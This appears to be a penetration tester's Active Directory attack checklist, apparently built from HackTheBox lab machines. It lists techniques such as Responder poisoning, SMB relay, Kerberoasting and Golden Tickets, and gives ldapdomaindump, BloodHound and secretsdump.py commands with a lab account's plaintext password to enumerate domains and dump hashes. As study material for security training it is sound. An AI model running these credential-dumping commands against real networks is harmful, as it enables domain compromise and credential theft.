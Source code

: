 
[[00 Active Directory Contents]]

<h2> Initial Attack Vectors</h2>
- [ ] LLMNR Poisoning
- [ ] Capturing NTLMv2 Hashes with Responder
- [ ] SMB Relay Attack
- [ ] IPV6 DNS Takeover via MIM6
- [ ] Passback Attacks



<h2> Initial Attack Vectors Strategy</h2>
- [ ] Begin the day with Man in the Middle 6 or Responder (i.e. 8:00 am)
- [ ] If scan taking too long look for website in scope (http_version)
- [ ] Look for Default Credentials on web logins:
    - Printers
    - Jenkins
- [ ] Think Out of the Box



<h2>Post-Compromise Enumeration</h2>
- [ ] ldapdomaindump
```
ldapdomaindump ldaps://10.10.10.182 -u 'Cascade.local\ArkSvc' -p 'w3lc0meFr31nd'
```


- [ ] BloodHound
```
bloodhound-python -d Cascade.local -u ArkSvc -p 'w3lc0meFr31nd' -ns 10.10.10.182  -c all 
```

Neo4j
```
neo4j console
```


- [ ] Plumhound
```
git clone https://github.com/PlumHound/PlumHound.git
cd PlumHound
pip3 install -r requirements.txt
```

```
python3 PlumHound.py --easy -p password
```

```
python3 Plumhound.py -x tasks/default.tasks -p password
```
Open the index.html

- [ ] secretsdump

```
secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
```

```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```


- [ ] PlumHound

- [ ] PingCastle




<h2>Post-Compromise Attacks</h2>
- [ ] Pass the Hash / Password
- [ ] Dumping Hash with secretsdump.py
- [ ] Cracking NTLM Hashes with Hashcat
- [ ] Pass the Hash Attacks
- [ ] Pass Attack Mitigations
- [ ] Token Impersonation with Incognito
- [ ] Kerberoasting
- [ ] GPP / cPassword Attacks
- [ ] URL File Attacks
- [ ] Mimikatz
- [ ] Golden Ticket Attacks


<h2>Additional AD Attacks:</h2>
- [ ] Abusing Zero Logon
- [ ] Print Nightmare (CVE-2021-1675)

<h2>Post Exploitation</h2>
- [ ] File Transfers 
- [ ] Maintaining Access Overview
- [ ] Pivoting Walkthrough ProxyChains (S Shuttle)
- [ ] Cleaning Up


